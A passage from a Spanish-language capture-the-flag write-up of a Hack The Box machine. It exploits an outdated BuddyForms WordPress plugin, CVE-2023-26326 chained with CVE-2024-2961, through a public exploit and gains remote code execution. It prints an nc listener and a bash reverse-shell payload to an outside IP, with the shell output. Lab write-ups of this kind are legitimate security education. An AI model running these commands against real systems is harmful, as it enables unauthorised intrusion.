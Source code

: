 ![](assets/img/htb-writeup-bigbang/bigbang1_3.png)


El escaneo reveló la presencia del plugin BuddyForms, cuya versión está desactualizada. Se identificó además la vulnerabilidad crítica [CVE-2023-26326](https://nvd.nist.gov/vuln/detail/cve-2023-26326). Esta vulnerabilidad permite a un atacante remoto deserializar objetos PHP arbitrarios, lo cual podría conducir a la ejecución de código si se encuentra una cadena POP adecuada en el entorno. Además, se enumeraron exitosamente dos usuarios del sistema WordPress, `root` y `shawking`.

---
## CVE Exploitation

Para explotar la vulnerabilidad CVE-2023-26326 en el plugin BuddyForms, utilicé un exploit público disponible en GitHub, el cual combina esta vulnerabilidad con CVE-2024-2961 para lograr la ejecución remota de comandos.

```terminal
/home/kali/Documents/htb/machines/bigbang:-$ git clone https://github.com/omarelshopky/exploit_cve-2023-26326_using_cve-2024-2961.git

/home/kali/Documents/htb/machines/bigbang:-$ nc -lnvp 4321
	listening on [any] 4321 ...
```

Lanzo el exploit apuntando al endpoint vulnerable `admin-ajax.php`, con una carga útil en bash que establece la conexión inversa.

```terminal
(venv)-/home/kali/Documents/htb/machines/bigbang:-$ python3 exploit.py http://blog.bigbang.htb/wp-admin/admin-ajax.php 'bash -c "bash -i >& /dev/tcp/10.10.16.49/4321 0>&1"'
[*] Potential heaps: 0x7f471b600040, 0x7f471b400040, 0x7f471a000040, 0x7f4717a00040, 0x7f4716000040 (using first)
     EXPLOIT  SUCCESS

	... connect to [10.10.16.49] from (UNKNOWN) [10.10.11.52] 45922
www-data@8e3a72b5e980:/var/www/html/wordpress/wp-admin$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---
## Lateral Movement
